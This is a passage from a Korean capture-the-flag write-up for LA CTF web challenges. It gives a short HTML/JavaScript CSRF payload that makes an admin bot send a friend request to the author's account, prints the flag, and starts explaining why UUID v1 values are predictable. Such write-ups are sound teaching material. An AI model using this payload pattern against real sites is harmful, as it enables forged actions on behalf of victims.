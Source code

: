 일단, 여기까지 와서 보니 `xss`라기보단 `csrf`로 풀리는 문제였다.

`bmcyver`라는 계정을 만들고 아래 코드를 포스트하고, `admin bot`이 해당 페이지를 방문하게 하면 된다.

```html title="exploit.html"
<script>
  fetch('http://metaverse:8080/friend', {
    method: 'POST',
    body: 'username=bmcyver',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
    },
  });
</script>
```

![metaverse-1](metaverse-1.png)

`lactf{please_metaget_me_out_of_here}`

~~익스 코드 짜는 것보다 docker 네트워크 이슈 때문에 고생했다;;~~

## web/uuid hell (165 solves, 391 points)

:::tip[description]
UUIDs are the best! I love them (if you couldn't tell)!
:::

먼제 이 문제를 해결하기 위해서는 **uuid v1**에 대한 이해가 필요하다.

**uuid v1**은 `MAC 주소`와 `시간`을 기반으로 생성되는 **uuid**이다.

즉, **uuid**의 **randomness**는 상당히 떨어진다.

아래의 이미지를 참조하면 한번에 이해가 될 것이다.

